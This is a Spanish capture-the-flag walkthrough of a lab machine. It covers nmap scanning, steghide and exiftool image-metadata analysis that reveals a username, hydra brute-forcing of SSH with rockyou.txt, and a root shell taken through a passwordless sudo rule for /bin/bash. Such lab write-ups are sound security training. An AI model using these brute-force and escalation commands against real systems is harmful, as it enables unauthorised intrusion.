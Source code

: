 # BorazuwahCTF
## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones.

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 22 está abierto y ejecuta OpenSSH.
*   `80/tcp open http Apache httpd 2.4.59 ((Debian))`: El puerto 80 está abierto y ejecuta un servidor web Apache.

La presencia de un servidor web Apache sugiere que la interacción inicial se realizará a través de una aplicación web.

## 2. Obtención de Información de la Imagen Web

Al acceder a la dirección IP del objetivo en un navegador web, se muestra una página con una imagen de un huevo Kinder. Esto es una pista común en CTFs para buscar información oculta en la imagen.

### 2.1. Descarga de la Imagen

Primero, descargamos la imagen para poder analizarla localmente. Usamos `wget` para obtener el archivo `imagen.jpeg`.

```bash
wget http://<IP_DEL_OBJETIVO>/imagen.jpeg
```

### 2.2. Análisis con Steghide

`steghide` es una herramienta de esteganografía que permite ocultar datos dentro de archivos de imagen o audio. Intentamos extraer información oculta de la imagen.

```bash
steghide extract -sf imagen.jpeg
```

**Resultado:**

```bash
Sigue buscando, aquí no está to solución  
aunque te dejo una pista....  
sigue buscando en la imagen!!!
```
 Esto sugiere que la información no está oculta con `steghide` o que hay otra capa de ocultación.

### 2.3. Análisis de Metadatos con ExifTool

Dado que `steghide` no funcionó directamente, el siguiente paso es revisar los metadatos de la imagen. Los metadatos a menudo contienen información sobre la cámara, la fecha, la ubicación...

```bash
exiftool imagen.jpeg
```

**Resultado**

Entre la gran cantidad de metadatos, encontramos dos campos cruciales:

*   `Description: ---------- User: borazuwarah ----------`
*   `Title: ---------- Password: ----------`

Esto nos proporciona un nombre de usuario: **borazuwarah**.

## 3. Acceso Inicial (SSH)

Con el nombre de usuario `borazuwarah` y el puerto SSH (22) abierto, el siguiente paso es intentar un ataque de fuerza bruta para obtener la contraseña de SSH.

### 3.1. Fuerza Bruta con Hydra

Utilizamos `hydra` con el nombre de usuario `borazuwarah` y un diccionario de contraseñas (como `rockyou.txt`) para intentar iniciar sesión por SSH.

```bash
hydra -l borazuwarah -P /path/to/wordlist/rockyou.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `[22][ssh] host: <IP_DEL_OBJETIVO> login: borazuwarah password: 123456`

Esto nos proporciona la contraseña para el usuario `borazuwarah`: **123456**.

### 3.2. Acceder vía SSH

Para conectarse al servidor SSH como el usuario `borazuwarah`,:
```bash
ssh borazuwarah@172.17.0.2
# contraseña: 123456
```

## 4. Escalada de Privilegios

### 4.1. Verificación de Permisos Sudo

Primero, verificamos qué comandos puede ejecutar el usuario `borazuwarah` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL : ALL) ALL`: Esto significa que el usuario `borazuwarah` puede ejecutar cualquier comando como cualquier usuario (incluido `root`) en cualquier máquina.
*   `(ALL) NOPASSWD: /bin/bash`: Esto es aún más específico y nos indica que `borazuwarah` puede ejecutar `/bin/bash` como cualquier usuario sin necesidad de introducir su contraseña.

Esta configuración es una vulnerabilidad de escalada de privilegios directa, ya que permite al usuario `borazuwarah` obtener un shell de `root`.

### 4.2. Obtención de Shell de Root

Para obtener un shell de `root`, simplemente ejecutamos `/bin/bash` con `sudo` y especificando el usuario `root`.

```bash
sudo -u root /bin/bash
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
